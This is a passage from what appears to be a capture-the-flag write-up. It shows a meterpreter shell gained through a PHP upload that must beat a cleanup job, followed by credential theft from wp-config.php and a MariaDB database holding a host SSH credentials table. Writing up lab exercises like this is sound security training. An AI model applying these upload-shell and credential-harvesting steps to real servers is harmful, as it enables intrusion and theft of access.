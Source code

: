 msf5 exploit(multi/handler) > sessions -i 10 
[*] Starting interaction with 10...

meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 14438 created.
Channel 0 created.
www-data@1afdd1f6b82c:/var/www/html/uploads$ pwd
pwd
/var/www/html/uploads
www-data@1afdd1f6b82c:/var/www/html/uploads$ whoami
whoami
www-data
www-data@1afdd1f6b82c:/var/www/html/uploads$ ls
ls
4b5fbe1f45d5e4762a39b3ab3b78be5f.gif  ae0f225a850ed2fa0dc0156a04f58561.gif
58e09caa30987a8bcff859ef289fddf9.gif
www-data@1afdd1f6b82c:/var/www/html/uploads$ 

{{< / highlight >}}

Here, you can see where I was uploading actual gif files to figure this stuff out before trying with a shell. Although not explicitly shown here, there is a job that wipes all `*.php` files from the uploads directory every 300 seconds, so you have to get your payload in and execute it fairly quickly, since your payload might land within a few seconds before the delete job executes.

### Lateral Movement

From here, you can get the db creds out of `wp-config.php`. Once connected, you can also get host credentials.

{{< highlight markdown >}}
www-data@1afdd1f6b82c:/var/www/html$ mysql -u wordpress -p -h db wordpress
mysql -u wordpress -p -h db wordpress
Enter password: wordpress

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 444
Server version: 5.7.25 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [wordpress]> show tables;
show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| host_ssh_cred         |
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |